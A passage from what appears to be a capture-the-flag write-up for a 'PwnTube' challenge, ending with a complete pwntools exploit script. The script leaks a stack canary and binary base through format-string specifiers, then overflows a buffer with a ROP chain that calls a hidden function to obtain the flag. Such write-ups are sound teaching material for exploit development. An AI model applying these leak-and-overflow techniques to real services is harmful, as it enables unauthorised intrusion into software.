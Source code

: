 And lastly, I have added the correct values to the stack and called `skipAd`, and got the flag.

Here is the final script:

```py
from pwn import *

p = remote("pwntube.challs.srdnlen.it" , 1661)
elf = ELF("./PwnTube")
def add_comment(cmt):
	p.sendline("4")
	p.recvuntil("here:")
	p.sendline(cmt)

def show_comments():
	p.sendline("3")
	p.recvuntil(":D\n")
	return p.recvuntil("1.").replace(b"\n\n 1.", b'')


def premium_addfunds(payload):
	p.sendline("777")
	p.sendline('5')
	p.recvuntil("back\n")
	p.sendline("2")
	p.recvuntil("name:")
	p.sendline(payload)
	p.recvuntil("card number:")
	p.sendline("aaa")
	time.sleep(5)
def main():


	p.recv()

	add_comment(f"%71$p")
	add_comment(f"%11$p")
	canary, binary_leak = [int(i, 16) for i in show_comments().split(b"\n")] 
	elf.address = binary_leak - 0x1abd

	print("canary", hex(canary))
	print("bin", hex(elf.address))

	POPS = 0x00000000000015a9 + elf.address # pop rsi; pop rdi; ret; 

	premium_addfunds(b"a" * 504 + p64(canary) + b"B" * 8 + p64(POPS) + p64(0xfeedface) + p64(0xdeadbeef) + p64(elf.sym.skipAd))



	p.interactive()

main()

```
